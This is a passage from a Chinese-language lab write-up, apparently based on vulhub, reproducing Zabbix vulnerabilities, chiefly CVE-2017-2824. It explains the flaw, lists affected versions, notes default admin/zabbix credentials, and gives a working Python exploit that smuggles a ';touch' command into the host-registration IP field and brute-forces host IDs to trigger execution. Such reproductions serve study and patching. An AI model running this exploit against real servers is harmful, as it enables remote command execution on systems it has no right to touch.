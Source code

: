 然后我们执行命令

```
python3 exploit.py 120.46.179.184
```

我们就能在/tmp/下看见一个新创的文件夹



### 修复建议

检验IP



## CVE-2017-2824

### 漏洞原理

zabbix 调用script脚本时，没有对IP地址过滤，导致在注册host的数据包中的ip地址后面可以跟分号+命令的方式执行命令。

### 影响范围

zabbix 2.4.x

zabbix 3.0.x < 3.0.4

### 漏洞复现

我们依旧使用账号密码admin/zabbix登录后台，然后根据CVE-2020-11800的操作开启自动注册功能

然后打脚本

```py
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/cve-2017-2824"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```
